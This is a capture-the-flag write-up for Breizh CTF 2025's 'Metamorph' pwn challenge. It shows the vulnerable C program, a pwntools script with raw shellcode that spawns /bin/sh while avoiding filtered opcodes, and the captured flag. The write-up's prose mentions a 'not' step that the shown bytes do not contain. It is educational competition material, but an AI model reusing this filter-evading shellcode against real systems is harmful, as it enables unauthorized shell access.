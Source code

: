 ```yaml
---
title: "Breizh CTF 2025 - Metamorph"
date: 2025-04-14
tags: ["shellcode", "exploitation"]
categories: ["pwn"]
ctfs: ["breizh-ctf"]
---
```


# Metamorph - Breizh CTF 2025

## Challenge Description

Metamorph is a Pwn category challenge from Breizh CTF 2025. It is a binary that accepts a shellcode as input but imposes certain restrictions on the usable opcodes.

## Binary Analysis

By examining the binary's source code, we notice several important points:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

void transform() {
    void *shellcode;
    ssize_t bytes_read;

    shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    if (shellcode == MAP_FAILED) {
        perror("mmapi fail.");
        exit(1);
    }

    printf("Métamorph is waiting for its code... Transform it!\n");
    printf(">> ");
    
    bytes_read = read(0, shellcode, 0x50); 
    
    if (bytes_read <= 0) {
        perror("read failed");
        exit(1);
    }

    // Morphing...
    unsigned char *sc = (unsigned char *)shellcode;
    for (int i = 0; i < 0x50; i++) {
        if (sc[i] == 0x62){
            perror("Métamorph doesn't like 'b'.");
            exit(1);
        }

        if (sc[i] == 0x5e){
            perror("Métamorph doesn't like pop rsi.");
            exit(1);
        }

        if (sc[i] == 0x31){
            perror("Métamorph doesn't like xor.");
            exit(1);
        }

        if (sc[i] == 0x50){
            perror("Métamorph doesn't like push rax.");
            exit(1);
        }
    }

    ((void (*)())shellcode)(); 
}
```

The constraints are as follows:
1. The shellcode is limited to a maximum of 80 bytes
2. The following opcodes are forbidden:
   - `0x62` (opcode 'b')
   - `0x5e` (pop rsi)
   - `0x31` (xor)
   - `0x50` (push rax)

The program allocates an executable memory region with `mmap`, reads our input into it, checks the constraints, then executes the provided code.

## Exploitation

The goal is to create a shellcode that executes the `/bin/sh` command while avoiding the forbidden opcodes.

After several attempts, I was able to develop a shellcode that bypasses these restrictions:

```python
from pwn import *
import sys

if len(sys.argv) > 1 and sys.argv[1] == "REMOTE":
    conn = remote('morph-180.chall.ctf.bzh', 1337)
else:
    conn = process('./metamorph')  

conn.recvuntil(b">>")
conn.sendline(b"\xba\x00\x00\x00\x00\xbe\x00\x00\x00\x00\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x48\x89\xe7\xb8\x00\x00\x00\x00\x48\x83\xc0\x3b\x0f\x05\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80")
conn.interactive()
```

### Shellcode Explanation

The shellcode above uses several techniques to avoid the forbidden opcodes:

1. Instead of using `xor` to initialize registers, I use direct `mov` instructions with immediate zero values
2. I used alternative techniques to store `/bin/sh` in the registers
3. I use `not` then `neg` to obtain the `/bin/sh` string
4. Using `mov rax, 0` followed by `add rax, 59` avoids the direct use of `xor rax, rax`

The `/bin/sh` string is encoded reversed and bitwise complemented to avoid problematic opcodes.

## Flag

Once the shellcode is successfully executed, you get a shell on the remote server and can read the flag with the command `cat flag.txt`.

```
$ cat flag.txt
BZHCTF{m3t4_m0rph_m4573r_1337}
```

